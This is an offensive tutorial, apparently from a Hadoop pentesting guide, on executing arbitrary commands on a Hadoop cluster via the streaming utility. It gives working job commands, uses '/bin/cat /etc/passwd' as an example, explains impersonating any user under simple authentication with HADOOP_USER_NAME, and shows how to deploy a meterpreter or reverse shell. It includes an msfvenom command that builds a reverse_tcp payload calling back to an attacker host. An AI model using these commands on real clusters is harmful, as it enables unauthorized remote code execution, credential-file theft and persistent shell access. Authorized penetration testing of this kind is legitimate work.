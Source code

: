 Executing remote commands
=========================

Description
-----------
This tutorial explains how to execute arbitrary commands on an Hadoop cluster

Prerequisites
-------------
1. A **working attack environment**: Hadoop binaries and the target cluster configuration are needed. Follow the following tutorials to set them up: 
  * [Setting up an Hadoop attack environment](../Setting%20up%20an%20Hadoop%20attack%20environment)
  * [Getting the target environment configuration](../Getting%20the%20target%20environment%20configuration)  
  
2. Then you need to be able to access the following **Hadoop services through the network**:
  * **YARN ResourceManager**: usually on ports 8030, 8031, 8032, 8033 or 8050
  * **NameNode metadata service** in order to [browse the HDFS datalake](../Browsing%20the%20HDFS%20datalake): usually on port 8020
  * **DataNode data transfer service** in order to upload/download file: usually on port 50010
  
3. Finally you have to look up which **authentication level** is deployed, the cluster you are attacking might have:
  * Either **simple authentication** enforced: in that case you don't need credentials, you can simply specify which user you want to be with the `HADOOP_USER_NAME`
  * Or **Kerberos authentication** enforced (called ["Hadoop Secure Mode"](https://hadoop.apache.org/docs/r2.7.2/hadoop-project-dist/hadoop-common/SecureMode.html)): in that case you need proper Kerberos tickets
  
  
Executing a single command
--------------------------
1. Go to the directory where you decompressed Hadoop binaries (`/opt` in the tutorial):
  ```
  $ cd /opt/hadoop-2.7.3/
  ```
  
2. Call the Hadoop streaming utility:
  ```
  $ hadoop jar share/hadoop/tools/lib/hadoop-streaming-2.7.3.jar -input <a non empty file on HDFS> -output <a nonexistant directory on HDFS> -mapper <your single command> -reducer NONE
  ```
  
Some explanations might be useful:
  * `-input <a non empty file on HDFS>`: this will be provided as input to MapReduce for the command to be executed, just put at least a character in that file, this file is useless for our objective 
  * `-output <a nonexistant directory on HDFS>`: this directory will be used by MapReduce to write the result, either `_SUCCESS` or failure
  * `-mapper <your single command>`: the command to execute, for instance `"/bin/cat /etc/passwd"`. The output result will be written in the `-output` directory
  * `-reducer NONE`: there is no need for a reducer to execute a single command, a mapper is enough  

Note that for certain distributions you might need to put **additional parameters** (with `-D`) to submit a MapReduce job, for instance on **HortonWorks cluster** you need the **`-Dhdp.version=<version>`** option: you can find this information when you grab the target cluster configuration.  

Then when the job has terminated its execution: 
* Check the output result:
  ```
  $ hadoop fs -ls <a nonexistant directory on HDFS>
  ```
  
* Display the output:
  ```
  $ hadoop fs -cat <a nonexistant directory on HDFS>/part-00000
  ```
  
  
Executing a meterpreter/reverse shell
-------------------------------------
Due to the [limitations](#limitations) inherent to Hadoop, it is recommended to **use a `reverse shell` payload** (meterpreter or plain reverse_shell)
```
$ hadoop jar share/hadoop/tools/lib/hadoop-streaming-2.7.3.jar -input <a non empty file on HDFS> -output <a nonexistant directory on HDFS> -mapper <your executable meterpreter path on HDFS> -reducer NONE -file <your executable meterpreter path on your local attacking environment> -background
```
Again, some explanations:
  * `-file <your executable meterpreter path on your local attacking environment>`: your local meterpreter executable will be uploaded on HDFS, for instance `"/root/foobar/meterpreter.elf"`
  * `-mapper <your executable meterpreter>`: an HDFS path to your executable meterpreter, by default put `"./meterpreter.elf"`
  * `-background`: this starts the job without waiting for its completion  

Then **start your meterpreter listener**, wait **few dozen of seconds** (yes it is quite slow) before gaining your **meterpreter session**.  
  
  
Limitations
-----------
Due to the **distributed nature of a MapReduce job**, it is not possible to specify on which node you want to execute your payload. There is **no mechanism** ensuring that the payload you will launch on **two successive jobs** will execute on the **same cluster member**.  
As a consequence **you can't know beforehand the server IP where your payload will be executed**: so just use a `reverse shell` payload and **gently wait for your shell to arrive**.

It is possible to use a **meterpreter**, for instance generated as following:
```
$ msfvenom -a x86 --platform linux -p linux/x86/meterpreter/reverse_tcp LHOST=<IP address> -f elf -o msf.payload
```
Note that on certain Hadoop clusters the meterpreter does work, the session is created, **but calling the `shell` command leads to session termination for unknown reasons**. In that case use a **plain metasploit `reverse_shell` payload.**
  
  
References
----------
Check the [Hadoop Streaming page](https://hadoop.apache.org/docs/r2.7.2/hadoop-streaming/HadoopStreaming.html) for any additional help
